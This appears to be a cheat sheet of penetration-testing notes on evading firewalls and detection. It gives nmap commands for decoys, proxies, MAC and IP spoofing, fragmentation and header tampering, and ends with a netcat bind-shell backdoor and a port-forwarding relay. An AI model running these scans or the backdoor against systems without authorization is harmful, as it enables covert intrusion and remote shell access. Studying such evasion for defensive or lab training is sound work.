 # EVASION VIA CONTROLLING THE SOURCE MAC/IP/PORT

### Tool: nmap

### Nmap can spoof:

### 1) Decoy(s)

### 2) Proxy

### 3) Spoof MAC address

### 4) Spoofed Source IP Address

### 5) Fixed Source port number

## DECOY

### Example:

#### nmap -sS -Pn -D RANDOM,RANDOM,OUR_IP -F TARGET_IP

### TIP: You can explicitly specify the random IPs in your scan

## PROXY

### Example:

#### nmap -sS -Pn --proxies PROXY_URL -F TARGET_IP

### TIP: You can chain proxies using a comma separated list

## SPOOFED MAC ADDRESS

#### nmap option: --spoof-mac MAC_ADDRESS

### MAC Spoofing works only if your system is on the same network segment as the target host

## SPOOFED IP ADDRESS

#### nmap option: -S IP_ADDRESS

### TIP: IP Spoofing can be useful if your system is on the same subnetwork as the target host. Also you can use this technique when you control a system that has a particular IP address

## FIXED SOURCE PORT NUMBER

### Example:

#### nmap -sS -Pn -g 8080 -F TARGET_IP

### TIP: Use port number like 53,80,8080,etc

# EVASION VIA FORCING FRAGMENTATION, MAXIMUM TRANSMISSION UNIT (MTU) AND DATA LENGTH 

## Fragmentation

### Tool: nmap

### Examples:

### -f = 8 bytes

### -ff = 16 bytes

#### nmap -sS -Pn -ff -F TARGET_IP

## Maximum Transmission Unit MTU

#### nmap option: --mtu NUM

### TIP: Number must always be multiple of 8

## Packets with specific length

### nmap option: --data-length VALUE

#### nmap -sS -Pn --data-length NUM -F TARGET_IP

### TIP: Multiple of 8

# EVASION VIA MODIFYING HEADER FIELDS

## Set Time To Live (TTL)

### option: --ttl NUM

#### nmap -sS -Pn --ttl NUM -F TARGET_IP

## Set IP options

### option: --ip-options HEX_STRING

### 1 byte in hex: \xHH

### Other options:

### 1) R = to record route

### 2) T = to record timestamp

### 3) U = record route and record timestamp

### 4) L = Loose routing (Source)

### 5) S = Strict routing (Source)

## Wrong checksum

### option: --badsum

#### nmap -sS -Pn --badsum -F TARGET_IP

# EVASION USING NON-STANDARD PORTS

### Backdoor example: nc -lvnp PORT -e /bin/bash

### TIP: run as root to use ports below 1024 with netcat

# PORT TUNNELING/PORT MAPPING/PORT FORWARDING

### Example: nc -lvnp 443 -c "nc TARGET_IP 25"

#### Access the SMTP server via a port that is not blocked by the firewall
